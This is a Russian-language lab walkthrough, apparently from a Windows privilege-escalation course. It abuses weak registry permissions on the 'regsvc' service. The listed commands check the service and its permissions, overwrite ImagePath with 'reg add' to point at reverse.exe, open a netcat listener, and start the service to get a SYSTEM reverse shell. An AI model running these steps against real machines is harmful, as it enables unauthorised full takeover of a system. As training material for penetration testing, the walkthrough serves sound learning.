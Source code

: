 ![image](https://github.com/user-attachments/assets/37d1e3ec-0dc3-4dc5-892a-0224888438c7)# 🐾 5. Эксплуатация служб - Слабые права на реестр
---
## 📜 Описание задания
В этом задании мы будем использовать уязвимость в реестре, связанный с сервисом `regsvc`, который работает с привилегиями SYSTEM. Уязвимость заключается в том, что запись реестра, используемая для указания пути к исполняемому файлу, имеет слабые права доступа, что позволяет изменить её. Мы воспользуемся этим, чтобы указать путь к нашему исполняемому файлу и получить обратный шелл с привилегиями SYSTEM.

---
## 🔍 Шаг 1: Проверка конфигурации сервиса
Сначала проверим конфигурацию сервиса `regsvc`, чтобы убедиться, что он работает с привилегиями SYSTEM и имеет уязвимость в реестре. Выполните следующую команду:
`sc.exe qc regsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что `SERVICE_START_NAME` указывает на SYSTEM.
- Проверьте, что путь к исполняемому файлу может быть уязвим для записи.
![image](https://github.com/user-attachments/assets/fcad07e5-5d73-42e5-95f8-92ca0adc6032)

## 🔑 Шаг 2: Проверка прав доступа к записи реестра
Теперь мы используем инструмент `accesschk.exe`, чтобы проверить права доступа к записи реестра для сервиса `regsvc`. Выполните следующую команду:
`C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что группа `NT AUTHORITY\INTERACTIVE` (или все пользователи, вошедшие в систему) имеет права на запись в запись реестра.
![image](https://github.com/user-attachments/assets/0480858d-0e9e-479d-8b72-d23660aabb13)

## 📝 Шаг 3: Перезапись ключа реестра
Теперь мы изменим ключ реестра `ImagePath`, чтобы указать путь к нашему исполняемому файлу `reverse.exe`. Выполните следующую команду:
`reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f`

### 📋 Ожидаемый вывод
- Убедитесь, что ключ `ImagePath` был успешно изменен и указывает на `reverse.exe`.
![image](https://github.com/user-attachments/assets/e29a79bb-671d-4ccc-8f7b-cfa2b56c31ee)

## 🎧 Шаг 4: Запуск слушателя
Перед запуском сервиса убедитесь, что у вас запущен слушатель на Kali. Выполните следующую команду для запуска слушателя на Kali:
`nc -lvnp 53`

## 🚀 Шаг 5: Запуск сервиса
Теперь мы можем запустить сервис `regsvc`, который должен выполнить наш файл `reverse.exe` и предоставить нам обратный шелл с привилегиями SYSTEM. Выполните команду:
`net start regsvc`

### 📋 Ожидаемый вывод
- Убедитесь, что вы получили обратный шелл на Kali.
![image](https://github.com/user-attachments/assets/fdccd94b-bdb7-4a7d-8370-9235cf78d6af)

## 🎉 Поздравления!
Вы успешно использовали уязвимость в реестре для получения обратного шелла с привилегиями SYSTEM! 🎊

## 📌 Примечания
- Убедитесь, что вы понимаете все шаги и их последствия.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.
